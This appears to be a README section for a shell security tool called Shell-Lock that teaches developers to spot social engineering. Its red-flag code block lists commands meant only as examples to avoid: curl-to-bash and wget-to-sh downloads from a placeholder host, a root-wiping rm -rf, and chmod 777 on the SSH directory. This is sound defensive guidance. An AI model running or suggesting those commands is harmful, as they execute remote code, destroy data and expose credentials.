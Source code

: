 ## 🛡️ Social Engineering Protection

### Understanding Social Engineering Threats

**Social engineering attacks target the human element rather than technical vulnerabilities.** In development environments, these attacks often involve:

- **Malicious "helper" scripts** disguised as productivity tools
- **Fake security updates** that actually compromise systems
- **Credential harvesting** through seemingly legitimate tools
- **Supply chain attacks** via compromised dependencies
- **"Quick fixes"** for common problems that contain backdoors

### 🚨 Red Flags - Never Trust These

**Immediate red flags that indicate potential social engineering:**

```bash
# NEVER run commands like these from untrusted sources:
curl http://example.com/script.sh | bash     # Pipe to shell
wget -qO- http://example.com/setup | sh      # Download and execute
bash <(curl -s http://example.com/install)   # Download and execute
sudo rm -rf / --no-preserve-root             # Destructive commands
chmod 777 ~/.ssh/                            # Dangerous permissions
```

**Common social engineering phrases to watch for:**

- "Quick fix for your problem"
- "Just run this one command"
- "This will solve all your issues"
- "Don't worry about what it does"
- "Everyone uses this script"

### ✅ Shell-Lock Protection Features

**How Shell-Lock protects against social engineering:**

1. **Input Validation** - All inputs sanitized and validated
2. **Secure Defaults** - Most secure settings used by default
3. **Transparency** - All scripts are readable and auditable
4. **User Education** - Clear warnings about security implications

### Safe Verification Practices

```bash
# Always verify script contents before running
head -20 install.sh
cat scripts/secure-cred | less

# Check repository authenticity
git remote -v  # Should be official Shell-Lock repository

# Test in isolation first
# Use containers or test accounts for initial testing
```
